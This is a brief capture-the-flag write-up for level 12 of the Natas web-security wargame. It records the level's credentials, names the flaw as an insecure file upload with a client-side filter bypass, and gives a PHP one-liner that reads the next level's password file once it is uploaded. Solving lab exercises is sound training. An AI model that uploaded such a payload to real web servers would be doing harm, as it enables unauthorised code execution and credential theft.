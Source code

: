 # Username
natas12
# Password
yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
# Web vulnerability
Insecure file upload, client-side filter bypass
# Method of solve
Upload a malicious php file, but replay the request in Burpsuite, and adjust the file extension, setting it back to PHP, then access the file in the web app, because we are given the file path for the uploaded file.
This is the PHP one-liner to read the password file
```
<?php echo file_get_contents('/etc/natas_webpass/natas13'); ?>
```
